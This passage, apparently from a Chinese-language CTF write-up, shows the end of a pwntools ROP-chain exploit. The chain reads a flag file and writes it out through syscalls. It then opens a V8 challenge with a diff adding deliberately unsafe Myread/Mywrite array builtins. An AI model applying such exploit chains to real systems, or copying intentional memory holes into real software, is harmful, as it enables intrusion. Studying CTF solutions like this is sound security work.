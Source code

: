 ```python
	recv,             # rdi赋值flag地址
	0,
	0,
	0x401077,         # syscall系统调用
	# read
	0x401017,
	0,
	0,
	0,                # r13赋值read的系统调用
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0x4023d0,         # rsi赋值缓存地址
	3,                # rdi赋值fd文件符
	0,
	0,
	0x401077,         # syscall
	# write
	0x401017,
	0,
	0,
	1,                # write系统调用
	0x40100c,
	0x401017,
	0,
	0,
	0,
	0x401017,
	0x402000 - 0x10, # rsi缓存地址
	1,               # rdi fd文件符
	0,
	0,
	0x401077,
])
p.sendline(payload)

p.interactive()
```
# my_v8
环境搭建遇到的问题比做题遇到的问题还多，具体看这边[[v8]]。
首先看一下diff文件
```diff
diff --git a/src/bootstrapper.cc b/src/bootstrapper.cc
index b027d36b5e9..406ca1eac98 100644
--- a/src/bootstrapper.cc
+++ b/src/bootstrapper.cc
@@ -1666,6 +1666,10 @@ void Genesis::InitializeGlobal(Handle<JSGlobalObject> global_object,
                           false);
     SimpleInstallFunction(isolate_, proto, "copyWithin",
                           Builtins::kArrayPrototypeCopyWithin, 2, false);
+    SimpleInstallFunction(isolate_, proto, "Myread",
+                          Builtins::kMyread, 1, false);
+    SimpleInstallFunction(isolate_, proto, "Mywrite",
+                          Builtins::kMywrite, 2, false);
     SimpleInstallFunction(isolate_, proto, "fill",
                           Builtins::kArrayPrototypeFill, 1, false);
     SimpleInstallFunction(isolate_, proto, "find",
diff --git a/src/builtins/builtins-array.cc b/src/builtins/builtins-array.cc
index 8df340ece7a..604a876df01 100644
```